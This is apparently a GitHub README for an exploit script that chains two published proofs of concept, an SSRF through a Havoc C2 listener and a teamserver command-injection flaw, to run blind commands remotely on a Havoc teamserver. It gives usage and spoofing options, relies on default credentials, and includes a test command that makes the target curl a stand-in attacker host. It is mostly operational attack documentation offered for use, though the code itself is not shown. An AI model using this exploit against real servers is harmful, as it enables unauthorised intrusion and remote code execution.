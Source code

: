 # Havoc-Hackback

# Summary

This script provides RCE through an SSRF against a havoc teamserver. 

Credit to chebuya and hyperreality for finding and writing up the PoCs. This Script just combines them.
https://github.com/chebuya/Havoc-C2-SSRF-poc/
https://github.com/IncludeSecurity/c2-vulnerabilities/

Hyperreality's exploit attacks the Havoc teamserver port and can be used to execute arbitrary commands. This is normally difficult to pull off, however, since the teamserver port is not normally reachable by victims. 

Chebuya's script attacks a havoc listening port, forcing the teamserver to open a remote socket that we can then write bytes to. Since this request comes from the teamserver itself, it can be used to attack the teamserver port.

This script combines both exploits, enabling RCE against a havoc teamserver that is beyond our reach.


# Usage

```
usage: exploit.py [-h] -t TARGET -c CMD [-u USER] [-p PASSWORD] [-i IP] [-P PORT][-q QUIET] [spoofing options]

options:
  -t, --target TARGET   The listener target in URL format
  -c, --cmd CMD         Blind command to perform. No output will be given.
  -u, --user USER       The username to authenticate to teamserver with
  -p, --password PASSWORD
                        Password for joining teamserver
  -i, --ip IP           The IP of the Havoc Teamserver. Use 127.0.0.1 in most instances.
  -P, --port PORT       The teamserver port
```

In most cases the usage is:

```
python exploit.py -t https://IP -c <cmd>
```

This will use default credentials in order to attack the teamserver behind the listener. The command will be executed blindly. A good test would be to open a python webserver and attempt a curl request.

```
sudo python -m http.server 80

python exploit.py -t https://havoclistener.com -c curl http://attackerip.com/test
```

If credentials are found, they can be used with the -u and -p commands.


The following options are carried over from chebuya's script in order to preserve the capability make custom fields in the spoofed agent.

```
# Agent spoofing options
  -A, --user-agent USER_AGENT
                        The User-Agent for the spoofed agent
  -H, --hostname HOSTNAME
                        The hostname for the spoofed agent
  -U, --spoofed-username SPOOFED_USERNAME
                        The username for the spoofed agent
  -d, --domain-name DOMAIN_NAME
                        The domain name for the spoofed agent
  -n, --process-name PROCESS_NAME
                        The process name for the spoofed agent
  -ip, ---internal-ip INTERNAL_IP
                        The internal ip for the spoofed agent
  -q, --quiet QUIET     Don't show banner
```

